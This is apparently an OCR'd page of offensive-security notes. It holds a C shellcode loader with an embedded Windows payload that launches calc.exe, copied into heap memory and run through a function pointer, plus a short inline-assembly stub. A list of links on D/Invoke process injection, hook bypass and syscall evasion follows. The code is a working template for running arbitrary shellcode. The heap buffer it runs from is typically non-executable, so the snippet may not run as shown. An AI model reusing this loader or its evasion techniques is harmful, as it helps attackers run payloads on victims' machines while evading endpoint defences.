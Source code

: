 ```c
#include <Windows.h>
#include <stdio.h>
//Direct Assembly With C//https://github.com/Mr-Un1k0d3r/Shellcoding
int main() {printf("spotless");    
			asm(".byte 0x90,0x90,0x90,0x90\n\t"        "ret\n\t");    
			return 0;}
```

```c
#include <memory.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
	//Payload in Heap
//Make Use of Precompiled Data For Easying Code
typedef int(*IntFuncPtrdT)();
unsigned char shellcode[] = "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26"
"\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7"
"\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78"
"\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3"
"\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3"
"\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a"
"\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d"
"\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb"
"\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
int main()
	{
//Intialize Function Pointer with No Value to be pointed to it    
int (*f)();   	
//Allocate Heap Buffer  For the Shellcode with the same data type of it
unsigned char* shellCodeMemAddrPtr = (unsigned char *)malloc(sizeof(shellcode));   	
//Move Shell Code to the Allocated Buffer    
memcpy(shellCodeMemAddrPtr, shellcode, sizeof(shellcode));   	
//Cast Shell Code Pointer[reffered to Shell Code Address and Address  Returned From Memcpy] to Functioon Pointer and assigned This Pointer to Prevoius Intialized Pointer   	
//f = (*(int(*)())(shellCodeMemAddrPtr));    
f = (IntFuncPtrdT)shellCodeMemAddrPtr;   	
//Execute Function By its Pointer    
f();}
```

- **D/Invoke**
	- https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/
	- https://github.com/TheWover/DInvoke
	- [D/Invoke Process Injector](https://github.com/crypt0ace/CS-ShellcodeInjection) 
	- https://github.com/S3cur3Th1sSh1t/DInvoke 
	-  *https://dr4k0nia.github.io/posts/HInvoke-and-avoiding-PInvoke/
	- *https://gist.github.com/dr4k0nia/95bd2dc1cc09726f4aaaf920b9982f9d
	- *https://github.com/S3cur3Th1sSh1t/Creds/tree/master/Csharp
	- *https://dinvoke.net/
	- *https://github.com/TheWover/DInvoke
	- *https://thewover.github.io/Dynamic-Invoke/
	- *https://github.com/bohops/DynamicDotNet
	- *https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/
	- *https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/
	- *https://offensivedefence.co.uk/posts/dinvoke-syscalls/
	- *https://bohops.com/2022/04/02/unmanaged-code-execution-with-net-dynamic-pinvoke/
